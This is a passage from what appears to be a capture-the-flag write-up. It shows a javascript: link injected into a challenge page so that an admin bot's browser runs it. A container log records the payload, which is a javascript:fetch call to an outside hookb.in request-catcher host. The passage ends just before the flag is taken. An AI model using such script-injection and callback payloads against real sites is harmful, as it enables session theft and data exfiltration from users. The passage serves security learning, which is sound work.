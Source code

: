 Change the link, and go ahead:

```bash
admin_1   | vistiting: {
admin_1   |   title: '...',
admin_1   |   link: "javascript:fetch('https://hookb.in/ggg2p92p2XiG7Voo7z7P',{headers:{'Content-Type':'test'}})"
admin_1   | } []
admin_1   | Fontconfig warning: "/etc/fonts/fonts.conf", line 100: unknown element "blank"
admin_1   | 
admin_1   | DevTools listening on ws://127.0.0.1:34819/devtools/browser/a341f2bb-7789-4bad-8b2a-dbd91ab8d6eb
admin_1   | [0809/203918.354358:ERROR:bus.cc(393)] Failed to connect to the bus: Failed to connect to socket /var/run/dbus/system_bus_socket: No such file or directory
admin_1   | [0809/203918.363929:ERROR:gpu_init.cc(441)] Passthrough is not supported, GL is swiftshader
admin_1   | Going to  https://fbg.rars.win/button?title=...&link=javascript:fetch('https://hookb.in/ggg2p92p2XiG7Voo7z7P',{headers:{'Content-Type':'test'}})
```



And hookbin:



![](./poc.png)



Awesome! Time to get the flag:
